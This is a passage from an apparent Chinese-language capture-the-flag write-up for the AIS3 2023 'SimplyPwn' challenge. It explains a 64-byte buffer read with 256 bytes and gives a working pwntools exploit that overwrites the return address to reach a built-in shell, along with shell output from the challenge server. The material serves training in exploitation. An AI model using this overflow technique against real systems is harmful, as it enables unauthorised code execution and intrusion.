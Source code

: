 ### Flag
`AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}`

## SimplyPwn
### 題目

![image](https://user-images.githubusercontent.com/57281249/239932495-6a0bafff-9626-4400-80ff-eebe9e2ac101.png)

### 解題
1. IDA 打開
2. 人真好有給 shell code
![image](https://user-images.githubusercontent.com/57281249/239933559-f2a98b42-9d2a-4daa-8d46-ea66fac90097.png)
3. array 最長 64 bytes 然後 read 256 bytes 一臉就會 stack overflow.
![image](https://user-images.githubusercontent.com/57281249/239943925-86da7a51-43c9-4d25-abb2-970d7d4fceba.png)
4. 找 shell code 的位置
![image](https://user-images.githubusercontent.com/57281249/239944562-8c292e6c-fa5d-46c9-95dd-a81dbea6c5e5.png)
5. exploit
```python
import pwn
import re
import sys

r = pwn.remote('chals1.ais3.org', 11111)

print(r.recvrepeat(timeout=1).decode())
r.send(b'x'*(8*10-1) + int('4017A9', 16).to_bytes(3, 'little'))
r.recvrepeat(timeout=1)

while True:
    print(r.recvrepeat(timeout=1).decode(), end='')
    print('> ', end='')
    r.send(input().encode())
#    r.send(sys.stdin.buffer.read())
```

```
chummy@hitcon:~/ais3preexam2023$ python3 simpwnexp.py
[+] Opening connection to chals1.ais3.org on port 11111: Done
Show me your name:
> ls
FLAG
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
runtime
sbin
srv
sys
```